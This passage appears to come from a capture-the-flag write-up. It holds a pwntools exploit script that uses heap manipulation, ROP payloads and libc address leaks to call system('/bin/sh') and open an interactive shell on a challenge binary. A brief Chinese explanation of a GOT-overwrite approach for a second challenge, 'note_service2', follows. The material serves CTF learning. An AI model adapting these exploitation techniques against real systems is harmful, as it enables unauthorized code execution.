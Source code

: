 ```
        p = remote(ip, port)

    add_function(p, 's'*15, 999, 0x100, 'b'*0xff)
    delete_function(p, 's'*15 + '\n')
	
    payload = 'ab' + p32(0x8048812) + p32(0x08048602) + p32(0x804b504+1) + 'cd'
    add_function(p, 's'*15 , 0, 0x11, payload)
    add_function(p, 'b'*15, 0, 0x11, 'b'*16)
    add_function(p, 'c'*15, 0, 0x11, 'c'*16)

    for i in range(3, 15):
        add_function(p, chr(ord('a')+i)*15, 999, 0x11, chr(ord('a')+i+1)*16)
    add_function(p, 'r'*15, 999, 0x11, '\xff'*16)
    show_list(p)

    payload = 'a'*12
    payload += p32(0x08048570) + p32(0x080484d9) + p32(0x0804B014)
    payload += p32(0x8048812) + p32(0x08048cdd) + p32(0x804b504+1+12 + 4*3 + 4*3 + 4) + p32(100)
    p.sendline(payload)

    add_function(p, 'a'*15, 999, 0x100, 'b'*0xff)
    delete_function(p, 'a'*15 + '\n')
    payload = 'abcdefg'.ljust(16, 'a')
    payload = p32(0x804b504+1 + 12 - 4) + p32(0x08048668) + 'a'*8
    add_function(p, 'a'*13 + '\n', 0, 0x11, payload)
    add_function(p, 'c'*15, 0, 0x11, 'd'*16)
    add_function(p, 'd'*15, 0, 0x11, 'e'*16)

    for i in range(3, 15):
        add_function(p, chr(ord('b')+i)*15, 999, 0x11, chr(ord('b')+i)*16)
    add_function(p, 'w'*15, 999, 0x11, '\xff'*16)
    show_list(p)

    p.recvuntil('\n\n')
    printf_addr = u32(p.recv(4))
    free_addr = u32(p.recv(4))
    log.info('printf_addr=0x%x' % printf_addr)
    log.info('free_addr=0x%x' % free_addr)

    libc_base = printf_addr - printf_offset
    payload = p32(system_offset + libc_base) + p32(0) + p32(binsh_offset + libc_base)
    p.sendline(payload)

    return p

def main():
    p = crack(ip,port)
    p.interactive()

if __name__ == '__main__':
    main()

```
### note_service2
在add 函数里面,index是用户自己输入的，index和context内容并且没有做检测，index可以输入负数，而且是在bss段的，观察发现del函数有free，而bss段上面就是.got.plt段,就可以考虑覆盖做rop，一次写入8字节，构造ROPchain,getshell!
